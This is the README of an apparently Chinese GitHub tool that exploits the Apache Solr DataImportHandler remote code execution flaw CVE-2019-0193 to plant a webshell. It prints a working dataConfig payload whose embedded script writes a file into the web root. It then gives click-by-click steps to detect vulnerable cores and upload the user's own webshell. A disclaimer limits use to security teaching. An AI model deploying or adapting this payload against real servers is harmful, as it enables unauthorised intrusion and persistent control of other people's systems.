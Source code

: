# 项目声明
只用于信息安全教学交流，请勿用于非法测试和攻击。

# ApacheSolrRCE
ApacheSolrRCE（CVE-2019-0193）一键写shell，原理是通过代码执行的java文件流写的马。


# 工具说明
由于互联网上流传的payload都是命令执行，且不方便上webshell，因此写了这段payload

```
<dataConfig>
<dataSource name="streamsrc" type="ContentStreamDataSource" loggerLevel="TRACE" />
  <script><![CDATA[
          function poc(row){
var buf = new java.io.BufferedWriter(new java.io.FileWriter(java.net.URLDecoder.decode(java.lang.Thread.currentThread().getContextClassLoader().getResource("").getPath().toString().replaceAll("file:\/", "").split("WEB-INF")[0]+"1.txt")));buf.write(new java.lang.String(java.util.Base64.getDecoder().decode("MTIzNDU2")));buf.close();
row.put("title",123456);
return row;

}

]]></script>

<document>
    <entity
        stream="true"
        name="entity1"
        datasource="streamsrc1"
        processor="XPathEntityProcessor"
        rootEntity="true"
        forEach="/RDF/item"
        transformer="script:poc">
             <field column="title" xpath="/RDF/item/title" />
    </entity>
</document>
</dataConfig>
```
# 工具用法

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663056645344.jpg">

先点检测，获得core，并且判断有没有漏洞。

在点击getshell即可。

注：将你的webshell，放在shell目录下，工具会自动加载你的webshell至下拉列表中。

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663056948552.jpg">

默认代理是http代理，端口是8080，代码里面写死了的，需要的自己编译修改即可。

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663057045317.jpg">


# 特别感谢

[solr_exploit](https://github.com/1135/solr_exploit)
